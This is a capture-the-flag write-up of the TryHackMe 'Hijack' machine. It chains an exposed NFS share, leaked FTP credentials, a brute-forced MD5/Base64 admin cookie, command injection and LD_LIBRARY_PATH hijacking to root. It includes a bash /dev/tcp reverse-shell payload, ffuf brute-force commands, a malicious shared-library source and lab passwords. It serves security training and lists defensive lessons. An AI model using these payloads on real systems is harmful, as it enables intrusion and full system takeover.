

# Hijack - Writeup

* **Machine Name:** Hijack
* **Platform:** TryHackMe
* **Difficulty:** Easy

---

## Overview

Hijack is an easy Linux machine that focuses on enumeration, credential discovery, and privilege escalation through shared library hijacking.
The attack chain involves abusing an exposed NFS share, extracting credentials from multiple services, exploiting an insecure cookie authentication mechanism, and ultimately escalating privileges via **LD_LIBRARY_PATH hijacking** when running Apache with elevated permissions.

---

## Attack Path

1. Port scanning with Nmap
2. Access exposed NFS share via RPC
3. Retrieve FTP credentials
4. Brute-force administrator cookie
5. Achieve Remote Code Execution through command injection
6. Reuse discovered credentials for lateral movement
7. Escalate privileges using **LD_LIBRARY_PATH hijacking**

---

## Enumeration

### Nmap Scan

```bash
nmap -sV -sC -T4 --vv -p 22,21,80,111,2049,44204,47743,51488 -o nmap_scan 10.67.189.191
```

The scan revealed several interesting services:

* FTP on port **21**
* SSH on port **22**
* HTTP on port **80**
* RPC/NFS services on ports **111** and **2049**

The presence of RPC services suggested that **NFS shares might be exposed**, which became the next target for enumeration.

---

### RPC Enumeration

To inspect the NFS share, the root directory of the target was mounted locally:

```bash
mkdir mnt/nfs
sudo mount 10.67.189.191:/ mnt/nfs
```

Listing the mounted directory revealed the following:

```bash
ls -la
```

```
drwx------ 2 1003 1003 4096 Aug  8  2023 share
```

The `share` directory was owned by **UID 1003**, preventing access from the current user.

However, this restriction could be bypassed by creating a local user with the same UID:

```bash
sudo useradd -m -u 1003 -s /bin/bash hijack
sudo su hijack
```

After switching to the new user, the directory became accessible.



Inside the directory, a file containing FTP credentials was discovered:

```
ftp creds :

ftpuser:W3stV1rg1n14M0un741nM4m4
```

---

### FTP Enumeration

Using the discovered credentials, access to the FTP service was obtained:

```bash
ftp 10.67.189.191
```

Two interesting files were retrieved:

```
.passwords_list.txt
.from_admin.txt
```

The password list contained numerous candidate passwords, while the administrator note revealed important information:

```
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far.

NOTE To rick : good job on limiting login attempts, it works like a charm.
```

This strongly suggested that one of these passwords was used by the administrator.

---

### Web Enumeration

Browsing the web application running on port **80**, a user account was created and authenticated successfully.

While inspecting the session cookie, an interesting pattern appeared. The `PHPSESSID` value was encoded in **Base64**.

Example:

```bash
echo 'am9objo0Mjk3ZjQ0YjEzOTU1MjM1MjQ1YjI0OTczOTlkN2E5Mw==' | base64 -d
```

Result:

```
john:4297f44b13955235245b2497399d7a93
```

The password component was an **MD5 hash**, indicating that the session cookie followed the format:

```
username:md5(password)
```

This discovery made it possible to attempt **cookie brute-forcing** using the password list obtained from the FTP server.

---

## Exploitation

### Cookie Brute-Force

First, the password list was converted to MD5 hashes:

```bash
for p in $(cat .passwords_list.txt); do echo -n $p | md5sum | cut -d " " -f1; done
```

The results were saved to a file called:

```
md5_passwords.txt
```

Next, the correct cookie format was constructed:

```
admin:<md5_hash>
```

Each entry was encoded using Base64:

```bash
for p in $(cat md5_passwords.txt); do echo -n "admin:$p" | base64; done
```

The resulting list was saved as:

```
admin_brute_wordlist
```

The brute-force was performed using **ffuf**:

```bash
ffuf -u http://10.67.189.191/index.php -H "Cookie: PHPSESSID=FUZZ" -w admin_brute_wordlist -fs 487 -s
```

The valid administrator cookie was identified:

```
YWRtaW46ZDY1NzNlZDczOWFlN2ZkZmIzY2VkMTk3ZDk0ODIwYTU=
```

Replacing the session cookie with this value resulted in successful access to the administrator panel.

---

### Remote Code Execution

Within the administrator panel, a feature called **“Services Status Checker”** was discovered.

The input field was vulnerable to **command injection**, allowing the execution of arbitrary system commands using backticks.

Example:

```
`cat /etc/passwd`
```

To gain a shell, a reverse shell payload was injected while listening locally:

```bash
nc -lvnp 443
```

Payload:

```bash
`/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.136.51/443 0>&1"`
```

This resulted in a successful reverse shell connection.

---

## Post Exploitation

### Credential Discovery

While enumerating the web application files, the following configuration file was identified:

```
/var/www/html/rms/config.php
```

The file contained hardcoded credentials:

```
rick : N3v3rG0nn4G1v3Y0uUp
```

These credentials allowed switching to the user **rick**:

```bash
su rick
```

The user flag was then obtained:

```
/home/rick/user.txt
```

---

## Privilege Escalation

### Sudo Permissions

Checking the sudo permissions revealed the following configuration:

```bash
sudo -l
```

```
env_keep+=LD_LIBRARY_PATH

User rick may run the following commands:
(root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

The key observation here is that the environment variable **LD_LIBRARY_PATH** was preserved when executing commands with sudo.

This made it possible to perform **shared library hijacking**.

---

### LD_LIBRARY_PATH Hijacking

First, the shared libraries used by Apache were identified:

```bash
ldd /usr/sbin/apache2
```

Among them:

```
libcrypt.so.1
```

A malicious shared library was created:

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

The library was compiled as:

```bash
gcc -shared -fPIC libpwn.c -o /tmp/libcrypt.so.1
```

Finally, Apache was executed with a controlled library path:

```bash
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

Because Apache was executed as root, it loaded the malicious library, resulting in a **root shell**.

The final flag was retrieved from:

```
/root/root.txt
```

---

## Conclusion

This machine demonstrates how small misconfigurations across multiple services can be chained together to achieve full system compromise.

The attack began with the exposure of an NFS share, which allowed the discovery of FTP credentials. Information obtained from the FTP service was then leveraged to brute-force an insecure cookie authentication mechanism, granting administrative access to the web application. From there, a command injection vulnerability enabled remote code execution.

Finally, privilege escalation was achieved through **LD_LIBRARY_PATH hijacking**, exploiting the fact that the Apache service could be executed with elevated privileges while preserving attacker-controlled environment variables.

This challenge highlights the importance of:

* Properly restricting access to NFS shares
* Avoiding predictable or shared password lists
* Securing session management mechanisms
* Preventing command injection vulnerabilities
* Restricting environment variables when using sudo

Together, these weaknesses formed a complete exploitation chain leading to root access.
